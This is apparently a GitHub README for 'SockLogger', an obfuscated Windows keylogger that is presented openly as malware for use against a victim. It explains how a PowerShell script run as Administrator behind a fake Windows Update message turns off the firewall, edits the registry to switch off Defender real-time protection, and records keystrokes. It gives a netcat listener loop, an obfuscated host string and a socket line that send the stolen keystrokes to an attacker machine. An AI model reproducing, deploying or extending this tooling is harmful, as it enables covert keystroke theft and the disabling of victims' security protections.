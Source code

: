 # SockLogger
A creative way to evade 'Real Time Protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscates keylogger and using 'nc' on remote machine. While i was looking for a way to make a simple keylogger, i tought it would be interesting to make an obfuscated keylogger which will executed upon a running .ps1(PowerShell Script) with a fake message says something about critical problems that must be handle right now using windows update. Started to make a script that will make 3 things. anyway, it mist first run as Administrator privilege.
#### InShort:
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine [Port 2222].
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)

# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
<pre>
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 2, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]
</pre>
  
![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it.
  
<h4>Note:</h4>Change Machine IP in the .ps1/pyw script under the lines:

<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script

m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>

in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080. please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory

# Requirements
Victim must have python installed on computer(python3). When script gets executed, it will install using pip the 'pynput' package.
